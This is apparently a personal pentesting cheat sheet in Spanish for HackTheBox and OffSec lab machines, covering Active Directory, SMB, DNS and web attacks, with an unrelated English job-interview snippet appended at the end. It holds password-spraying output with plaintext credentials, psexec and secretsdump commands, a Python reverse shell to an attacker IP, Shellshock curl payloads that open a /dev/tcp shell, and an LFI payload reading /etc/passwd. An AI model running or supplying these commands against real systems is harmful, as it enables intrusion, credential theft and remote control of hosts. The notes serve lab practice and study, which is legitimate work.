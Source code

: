 ldapsearch -H ldap://flight.htb -x -s base -b '' "(objectClass=\*)" "\*" +
ldapsearch -x -h 192.168.194.165 -b “dc=heist,dc=offsec”

ENUMERACION

nmap -p- -Sp -vvv -A -T4 IP -o nmap\_ip
nmap -sU --top-ports 100 IP
nmap — script smb-vuln\* -p 139,445 -oN smb-vuln-scan $target
smbclient -L //ip -U ""
smblcient //ip/folder -U ""
enum4linux
enum4linux -u fmcsorley -p CrabSharkJellyfish192 -a 192.168.219.122 > enum4linux.txt

**\- Enumeracion crackmapexec**

#identficacion de usuarios

* [x] crackmapexec smb flight.htb -u svc\_apache -p 'S@Ss!K@\*t13' --users

└─# crackmapexec smb flight.htb -u svc\_apache -p 'S@Ss!K@\*t13' --users
SMB flight.htb 445 G0 [\*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB flight.htb 445 G0 [+] flight.htb\\svc\_apache:S@Ss!K@\*t13
SMB flight.htb 445 G0 [+] Enumerated domain user(s)
SMB flight.htb 445 G0 flight.htb\\O.Possum badpwdcount: 564 baddpwdtime: 2023-01-04 00:41:24.500844
SMB flight.htb 445 G0 flight.htb\\svc\_apache badpwdcount: 0 baddpwdtime: 2023-01-04 00:13:47.582627
SMB flight.htb 445 G0 flight.htb\\V.Stevens badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:24.157063
SMB flight.htb 445 G0 flight.htb\\D.Truff badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:23.875796
SMB flight.htb 445 G0 flight.htb\\I.Francis badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:23.532053
SMB flight.htb 445 G0 flight.htb\\W.Walker badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:23.172687
SMB flight.htb 445 G0 flight.htb\\C.Bum badpwdcount: 0 baddpwdtime: 2023-01-04 00:41:22.844568
SMB flight.htb 445 G0 flight.htb\\M.Gold badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:22.500791
SMB flight.htb 445 G0 flight.htb\\L.Kein badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:22.172637
SMB flight.htb 445 G0 flight.htb\\G.Lors badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:21.828930
SMB flight.htb 445 G0 flight.htb\\R.Cold badpwdcount: 564 baddpwdtime: 2023-01-04 00:41:25.172699
SMB flight.htb 445 G0 flight.htb\\S.Moon badpwdcount: 7 baddpwdtime: 2023-01-04 00:41:24.828922
SMB flight.htb 445 G0 flight.htb\\krbtgt badpwdcount: 0 baddpwdtime: 1600-12-31 19:00:00
SMB flight.htb 445 G0 flight.htb\\Guest badpwdcount: 0 baddpwdtime: 1600-12-31 19:00:00
SMB flight.htb 445 G0 flight.htb\\Administrator badpwdcount: 1 baddpwdtime: 2023-01-04 00:09:53.030686
#Probar usuarios con contraseñas

* [x] └─# crackmapexec smb flight.htb -u users.txt -p 'S@Ss!K@\*t13' --continue-on-success

SMB flight.htb 445 G0 [\*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB flight.htb 445 G0 [-] flight.htb\\O.Possum:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [+] flight.htb\\svc\_apache:S@Ss!K@\*t13
SMB flight.htb 445 G0 [-] flight.htb\\V.Stevens:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\D.Truff:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\I.Francis:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\W.Walker:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\C.Bum:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\M.Gold:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\L.Kein:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\G.Lors:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\R.Cold:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [+] flight.htb\\S.Moon:S@Ss!K@\*t13
SMB flight.htb 445 G0 [-] flight.htb\\krbtgt:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\Guest:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\Administrator:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE

* [x] └─# Fuerzabruta usuarios
    kerbrute -domain heist.offsec -users /usr/share/wordlists/names.txt -dc-ip 192.168.194.165

NOTA si al ejecutar este comando "python3 set\_empty\_pw.py DC01 192.168.194.165" sale un succes, significa que se tiene null session y se puede hacer un secretsdump.py sun contraseña

#intentar escribir y obtener shell

* [x] impacket-psexec flight.htb/s.moon@g0.flight.htb

Password:
[\*] Requesting shares on g0.flight.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[\*] Found writable share Shared
[\*] Uploading file oLnmoyYD.exe
[-] Error uploading file oLnmoyYD.exe, aborting.....
[-] Error performing the installation, cleaning up: SMB SessionError: STATUS\_ACCESS\_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)

<br>
de lo anterior el unico que tiene para escribir es Shared, se usa https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini

<br>
* [x] **Ver Recursos compartidos con el usuario y password**

crackmapexec smb 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --shares

<br>
* [x] **Enumerar usuarios de AD**

GetADUsers.py -all -dc-ip 192.168.219.122 hutch.offsec/fmcsorley:CrabSharkJellyfish192

GetNPUsers.py heist.offsec/ -dc-ip 192.168.194.165

<br>
* [x] **Volcado de password con usuario admin**

secretsdump.py hutch.offsec/administrator:‘9%GR6qN[.#)x4i’@192.168.219.122

* [x] Testing Access with the Cracked Password Using Crackmapexec
    crackmapexec smb 192.168.194.165 -u users.txt -p passwords.txt --continue-on-success \<puerto 445>
    crackmapexec winrm 192.168.194.165 -u users.txt -p passwords.txt --continue-on-success \<puerto 5985> (pwn3d!)
    evil-winrm -i 192.168.194.165 -u enox -p california

**#########DNS###############**
**Enumerar DNS Server###**
host -l 192.168.161.149#lo que se quiere buscar 192.168.161.149# (ip servidor)digpass axfr mailman.com @192.168.161.149
**-Buscar dominios fuerza burta por ip**
for ip in $\(seq 1 255\); do host 192\.168\.161\.$ip; done \| grep \-v "not found"
**-Buscar dominios fuerza bruta por listado**
for ip in $\(cat /usr/share/seclists/Discovery/DNS/subdomains\-top1mil\-5000\.txt\); do host $ip\.mailman\.com; done \|grep \-v "not found"\- Enumeracion de docminiodnsenum IP

#######WEB########
**\- Fuzzing**
dirb http://192.168.196.128/core
ffuf -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -u http://192.168.150.142/FUZZ
ffuf -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -u http://192.168.150.142/FUZZ -e .php,.conf,.xml,.html
ffuf -u 'http://192.168.94.80/console/file.php?FUZZ=/etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -fs 0

**\- worpress bruteforce**
wpscan --url httpxxxx -U user -P Pass //Brute force
wpscan --url httpxxxx -e u //identifcar usuarios
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hw 530

<br>
##Reverseshell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.49.55",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

<br>
**\- Auth Basic \- brute force**
hydra 192.168.55.90 -l admin -P password.lst http-get

**\- Scan user auth**
gobuster dir -u http://192.168.55.90 -U admin -P Football -w ../rockyou.txt

**\- Shellshock**
curl -vvvv -H 'User-Agent: () { :; }; /bin/bash -c "uname -i"' http://10.11.1.71/cgi-bin/admin.cgi --- Respuesta EXITOSA!!!
curl -vvvv -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.119.192/9998 0>&1' http://10.11.1.71/cgi-bin/admin.cgi --- Se crea un revershell
nc -lnvp 9998 --- recibiendo revershell

**\- RCE**
https://www.revshells.com/

**\- LFI**

Lista: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

' and die(show\_source('/etc/passwd')) or '

\- RPC

rpcclient -U "" -N 10.10.10.161
enumdomusers
enumdomgroups
querygroup 0x200
querygroupmem 0x200
queryuser 0x1f4

\*\*\*- SNMP
nmap -sU -p161 --script *snmp* $target

Aplogize for my english, im improving every day

What is the Role?

Please you can speak slower
what are the benefits?
medical plan
Vacation
Trainings
Salary
I have to go the office or can i work from home?

currently, my main activities are : Pentest (apis or aplication customer), red team in the warehouse, social engeneer (phishing, vhishing. etc), i need to speak with diferents person in order to understan the new project or realease, every day teams create different things.

i have 13 year expirience, in the area cybersecurity i have 8 or 9 expirience. i worked in PwC, I did assestmen vulnerabilities in aplications, in ATM's.